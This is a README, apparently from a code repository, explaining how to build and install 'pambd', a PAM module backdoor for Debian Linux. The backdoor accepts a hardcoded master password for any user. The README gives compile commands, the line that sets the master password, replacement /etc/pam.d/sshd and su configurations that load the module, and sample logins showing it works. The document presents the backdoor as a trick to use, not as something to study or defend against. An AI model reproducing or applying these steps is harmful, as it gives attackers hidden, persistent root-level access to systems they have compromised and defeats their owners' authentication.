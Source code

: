 pambd
=====

Introduction
------------

Note: the software in this repository is targeted at x86_64 Debian Linux
running a normal Linux kernel. As a result, some paths and configurations
will be different on other distributions of Linux. Adjust the gen.sh bash
script appropriately.

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

```bash
pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory
```

First install the package **libpam-dev** that contains the needed headers file for compilation:

```bash
deftcode pambd $ sudo apt-get install libpam0g-dev
```

Now edit the **pambd.c** and set your master custom password:

```c
#define MYPASSWD "my_master_passwd"
```

After that, generate the pam backdoor with:
(It needs the root permissions)

```bash
deftcode pambd $ sudo sh gen.sh
```

This will generate the pam backdoor at **/lib/x86_64-linux-gnu/security/pam_bd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

```bash
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so     # This must be 'sufficient'.
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # This is our pam backdoor.
account         sufficient      pam_bd.so        # --
```


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

```bash
deftcode pambd $ file /lib/x86_64-linux-gnu/security/pam_bd.so 
/lib/x86_64-linux_gnu/security/pam_bd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

Example with the **SSH** service:

```bash
deftcode pambd $ ssh eurialo@deftcode.local
eurialo@deftcode.local password: 

# eg. enter: my_master_passwd or real_user_password

Last login: Thu May 21 05:55:13 2015 from localhost
deftcode ~ $ 
```

Example with **su**:

```bash
deftcode pambd $ su -
Password: 

# eg. enter: my_master_passwd or real_user_password

deftcode ~ # 
```
